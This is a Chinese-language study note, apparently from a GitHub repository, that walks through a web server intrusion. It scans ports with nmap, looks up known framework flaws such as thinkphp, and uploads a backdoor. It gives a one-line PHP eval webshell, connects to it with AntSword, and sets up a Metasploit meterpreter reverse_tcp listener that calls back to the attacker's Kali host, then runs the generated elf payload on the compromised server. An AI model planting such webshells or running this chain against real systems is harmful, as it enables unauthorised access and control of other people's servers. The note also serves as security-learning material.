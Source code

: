 ```yaml
---
title: Nmap 基础
date: 2022-08-03
tags:
 - 网络安全
categories:
 - 学习笔记
---
```


## 快速识别网站

### 扫端口

如：快扫网关已开启的端口

*：快扫并不完整，只扫常用端口

8080端口启用，代表可能存在网站服务

![image-20220801173105133](./2_Nmap.assets/image-20220801173105133.png)



Kali中的Nmap只能使用命令行，常用命令：

```
nmap -sT -T4 [ipAddress]
```

> -s: Scan
>
> T: TCP
>
> -T Time	# 控制时间
>
> 4				# 扫描速度(0-5 数字越大越快)



同类工具：御剑端口扫描工具



### 看开发框架

> 通常存在于页面末端或网站图标或F12里



### 搜索历史漏洞并利用

如：thinkphp

![image-20220801174548963](./2_Nmap.assets/image-20220801174548963.png)



### 上传后门

例1：

![image-20220801190619947](./2_Nmap.assets/image-20220801190619947.png)

例2：

![image-20220801190633220](./2_Nmap.assets/image-20220801190633220.png)

### Webshell

Ex：一句话木马

```php
<?php eval($_POST[ccc];)?>
```



常用工具：中国蚁剑、菜刀、哥斯拉、冰蝎

**蚁剑为例**：

仓库：[AntSwordProject (github.com)](https://github.com/AntSwordProject)

文档：[AntSword 文档 · 语雀 (yuque.com)](https://www.yuque.com/antswordproject/antsword)



![image-20220803171818174](./2_Nmap.assets/image-20220803171818174.png)



连接成功后即可进行GetShell等操作

![image-20220803174708439](./2_Nmap.assets/image-20220803174708439.png)

**利用Metesploit进行攻击**

生成后门

*：Linux的可执行文件格式为elf，故-f 为 elf

![image-20220803175456903](./2_Nmap.assets/image-20220803175456903.png)



将后门Copy到服务器后，msfconsole开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost [kali_IP]
set lport [10000]
run
```



回到蚁剑，打开服务器Terminal，更改生成的elf文件的权限为可执行，并运行文件

```
chmod 777 demo10000.elf
./demo10000.elf
```



此时正在监听的kali便能get到更高权限的shell













